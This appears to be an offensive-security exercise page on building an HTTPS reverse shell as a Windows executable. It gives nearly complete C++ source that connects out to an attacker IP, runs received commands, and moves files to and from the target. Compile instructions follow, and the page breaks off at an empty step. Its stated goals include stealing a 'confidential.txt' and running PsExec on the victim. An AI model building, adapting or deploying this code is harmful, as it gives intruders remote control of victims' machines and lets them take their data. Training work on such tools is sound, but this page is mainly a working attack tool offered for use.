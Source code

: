# Write A HTTPS Reverse-Shell As A Windows Executable
An HTTPS reverse shell is a tool hackers use to remotely control a target computer by establishing a secure connection via a crafted HTTPS URL. Once accessed, it opens a reverse shell on the hacker’s system, allowing remote access to view or modify the target’s files more securely than a plaintext HTTP connection


## References
- [Reverse Connection](https://en.wikipedia.org/wiki/Reverse_connection) by Wikipedia


## Tasks
- Develop a program that constructs a HTTPS reverse shell in the form of a Windows executable. The program must achieve the following
  - Facilitate reverse connections over HTTPS to ensure secure communication
  - Provide functionality to execute remote commands on the target machine
  - Implement the capability to upload files to the target machine
  - Incorporate the ability to download files from the target machine


## Benchmarks
- Execute the Windows executable on the attacker's machine
- Illustrate the process of establishing a reverse shell connection to the attacker's machine through HTTPS
- Demonstrate the execution of a command on the target machine to retrieve the current user's group
- Showcase the successful upload of a Sysinternals Suite executable (e.g., "PsExec.exe") from the attacker's machine to the target machine
- Validate the successful transfer of the Sysinternals Suite executable on the target machine by executing it
- Display the successful download of a sensitive file (e.g., "confidential.txt") from the target machine to the attacker's system



## Practical Approach
1. Save the following C++ file and compile it as `httpsreverseshell.exe`
   ```
    #include <iostream>
    #include <winsock2.h>
    #include <ws2tcpip.h>
    #include <openssl/ssl.h>
    #include <openssl/err.h>
    #include <fstream>
    
    #pragma comment(lib, "ws2_32.lib")
    #pragma comment(lib, "libssl.lib")
    #pragma comment(lib, "libcrypto.lib")
    
    #define SERVER_HOST "192.168.1.100" // Replace with your attacker's IP
    #define SERVER_PORT 443
    
    void initialize_winsock() {
        WSADATA wsa;
        if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
            std::cerr << "WSAStartup failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    }
    
    SSL_CTX* initialize_openssl() {
        SSL_library_init();
        SSL_load_error_strings();
        OpenSSL_add_all_algorithms();
        return SSL_CTX_new(TLS_client_method());
    }
    
    SSL* establish_https_connection(SSL_CTX* ctx) {
        struct sockaddr_in server_addr;
        SOCKET sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
        if (sock == INVALID_SOCKET) {
            std::cerr << "Socket creation failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    
        server_addr.sin_family = AF_INET;
        server_addr.sin_port = htons(SERVER_PORT);
        inet_pton(AF_INET, SERVER_HOST, &server_addr.sin_addr);
    
        if (connect(sock, (struct sockaddr*)&server_addr, sizeof(server_addr)) < 0) {
            std::cerr << "Connection failed. Error: " << WSAGetLastError() << std::endl;
            exit(EXIT_FAILURE);
        }
    
        SSL* ssl = SSL_new(ctx);
        SSL_set_fd(ssl, sock);
        if (SSL_connect(ssl) <= 0) {
            std::cerr << "SSL connection failed." << std::endl;
            ERR_print_errors_fp(stderr);
            exit(EXIT_FAILURE);
        }
    
        return ssl;
    }
    
    std::string execute_command(const std::string& cmd) {
        char buffer[128];
        std::string result = "";
        FILE* pipe = _popen(cmd.c_str(), "r");
        if (!pipe) return "Error executing command.";
        while (fgets(buffer, sizeof(buffer), pipe) != nullptr) {
            result += buffer;
        }
        _pclose(pipe);
        return result;
    }
    
    void upload_file(SSL* ssl, const std::string& filepath) {
        std::ofstream out(filepath, std::ios::binary);
        char buffer[1024];
        int bytes_read;
        while ((bytes_read = SSL_read(ssl, buffer, sizeof(buffer))) > 0) {
            out.write(buffer, bytes_read);
        }
        out.close();
    }
    
    void download_file(SSL* ssl, const std::string& filepath) {
        std::ifstream in(filepath, std::ios::binary);
        char buffer[1024];
        while (in.read(buffer, sizeof(buffer))) {
            SSL_write(ssl, buffer, in.gcount());
        }
        in.close();
    }
    
    int main() {
        initialize_winsock();
        SSL_CTX* ctx = initialize_openssl();
        SSL* ssl = establish_https_connection(ctx);
    
        while (true) {
            char command[1024];
            int bytes = SSL_read(ssl, command, sizeof(command) - 1);
            if (bytes <= 0) break;
            command[bytes] = '\0';
    
            if (strncmp(command, "upload", 6) == 0) {
                upload_file(ssl, command + 7); // upload <filepath>
            } else if (strncmp(command, "download", 8) == 0) {
                download_file(ssl, command + 9); // download <filepath>
            } else {
                std::string result = execute_command(command);
                SSL_write(ssl, result.c_str(), result.length());
            }
        }
    
        SSL_shutdown(ssl);
        SSL_free(ssl);
        SSL_CTX_free(ctx);
        WSACleanup();
        return 0;
    }
   ```
2. To cross-compile on Kali Linux as the attacker machine, use
   ```
   x86_64-w64-mingw32-g++ httpsreverseshell.cpp -o httpsreverseshell.exe -lws2_32 -lssl -lcrypto
   ```
   To compile using MinGW or another suitable Windows-compatible compiler, use
   ```
   g++ httpsreverseshell.cpp -o httpsreverseshell.exe -lws2_32 -lssl -lcrypto
   ```
   To compile in Dev-C++, download the precompiled OpenSSL binaries for Windows. Ensure they match the architecture (32-bit or 64-bit) of your system.
   Add the OpenSSL include and library directories to Dev-C++:
   - Go to Tools → Compiler Options
   - Under Directories → C Includes, add the path to the OpenSSL include folder
   - Under Directories → Libraries, add the path to the OpenSSL lib folder
   Add Required Libraries:
   - Go to Project → Project Options → Parameters → Linker
   - Add the following linker flags:
     ```
     -lws2_32 -lssl -lcrypto
     ```
3. 
